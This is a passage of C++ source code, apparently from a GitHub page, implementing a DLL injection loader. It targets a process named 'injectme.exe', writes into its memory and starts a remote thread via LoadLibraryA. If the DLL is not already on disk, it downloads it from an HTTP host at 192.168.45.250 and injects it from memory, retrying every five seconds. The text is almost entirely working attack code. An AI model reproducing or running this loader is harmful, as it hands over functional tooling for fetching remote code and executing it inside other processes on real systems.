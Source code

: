 ```cpp

    if (!WriteProcessMemory(hProcess, pDllBuffer, dllBuffer, bufferSize, NULL)) {
        VirtualFreeEx(hProcess, pDllBuffer, 0, MEM_RELEASE);
        CloseHandle(hProcess);
        return false;
    }

    HMODULE hKernel32 = GetModuleHandleA("Kernel32");
    FARPROC pLoadLibrary = GetProcAddress(hKernel32, "LoadLibraryA");

    HANDLE hThread = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)pLoadLibrary, pDllBuffer, 0, NULL);
    if (!hThread) {
        VirtualFreeEx(hProcess, pDllBuffer, 0, MEM_RELEASE);
        CloseHandle(hProcess);
        return false;
    }

    WaitForSingleObject(hThread, INFINITE);
    VirtualFreeEx(hProcess, pDllBuffer, 0, MEM_RELEASE);
    CloseHandle(hThread);
    CloseHandle(hProcess);
    return true;
}

int main() {
    const char* processName = "injectme.exe";
    const char* dllPath = "C:\\Windows\\Tasks\\myinjection.dll";
    const char* url = "http://192.168.45.250:8000/myinjection.dll";

    while (true) {
        DWORD processId = FindProcessId(processName);
        if (processId != 0) {
            if (PathFileExistsA(dllPath)) {
                // Inject DLL from file
                if (InjectDLL(processId, dllPath)) {
                    std::cout << "Successfully injected DLL from file." << std::endl;
                } else {
                    std::cerr << "Failed to inject DLL from file." << std::endl;
                }
            } else {
                // Download DLL and inject from memory
                unsigned char* dllBuffer = nullptr;
                size_t bufferSize = 0;

                if (DownloadDLLFromURL(url, &dllBuffer, &bufferSize)) {
                    if (InjectDLLInMemory(processId, dllBuffer, bufferSize)) {
                        std::cout << "Successfully injected DLL from memory." << std::endl;
                    } else {
                        std::cerr << "Failed to inject DLL from memory." << std::endl;
                    }

                    free(dllBuffer);
                } else {
                    std::cerr << "Failed to download DLL." << std::endl;
                }
            }
        }

        Sleep(5000); // Sleep for 5 seconds before checking again
    }

    return 0;
```